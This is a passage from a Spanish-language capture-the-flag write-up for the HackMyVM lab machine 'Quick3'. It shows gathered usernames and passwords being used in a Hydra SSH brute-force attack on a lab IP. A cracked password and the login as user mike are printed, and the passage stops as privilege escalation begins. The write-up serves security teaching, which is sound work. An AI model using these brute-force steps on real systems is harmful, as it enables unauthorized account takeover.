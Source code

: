 Hagamos lo mismo para los usuarios:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Quick3/scripts]
└─# python3 get_user_and_password.py | awk -F: '{print $1}' > users.txt
```

Bien, ya tenemos todos los usuarios y contraseñas, aunque esto no es suficiente. Vamos a poner más usuarios a la lista **`users.txt`**. A partir de la lista que tenemos vamos a separar el nombre del apellido. Para ello haremos lo siguiente:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Quick3/scripts]
└─# cat users.txt | awk -F. '{print $1}' >> users.txt
```

Con esto lo que hemos hecho es separar el nombre del apellido y quedarnos con solamente el nombre. Utilizamos **`>>`** para que el contenido no se reescriba sino que se coloque justo abajo.

Bien, ahora ya estamos preparados para hacer fuerza bruta. Para ello utilizaremos **`Hydra`**, una herramienta que facilita bastante el proceso:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Quick3/scripts]
└─# hydra -L users.txt -P passwords.txt ssh://192.168.1.110
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-21 17:07:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 162 login tries (l:18/p:9), ~11 tries per task
[DATA] attacking ssh://192.168.1.110:22/
[22][ssh] host: 192.168.1.110   login: mike   password: 6G3UCx6aH6UYvJ6m
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-21 17:07:54
```

¡Qué bien, hemos encontrado una combinación de usuario y contrasña válida! Iniciemos sesión mediante **`SSH`**:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Quick3/scripts]
└─# ssh mike@192.168.1.110
mike@192.168.1.110's password: 6G3UCx6aH6UYvJ6m
mike@quick3:~$
```

### Subida de privilegios
Este paso es muy sencillo, es básicamente explorar un poco el sistema. A mí me gusta siempre revisar la carpeta **`/var/www/html/`{: .filepath }** en busca de ficheros ocultos o que no haya visto antes.

Si nos vamos a dicho directorio y miramos dentro de la carpeta **`customers`**, veremos lo siguiente:
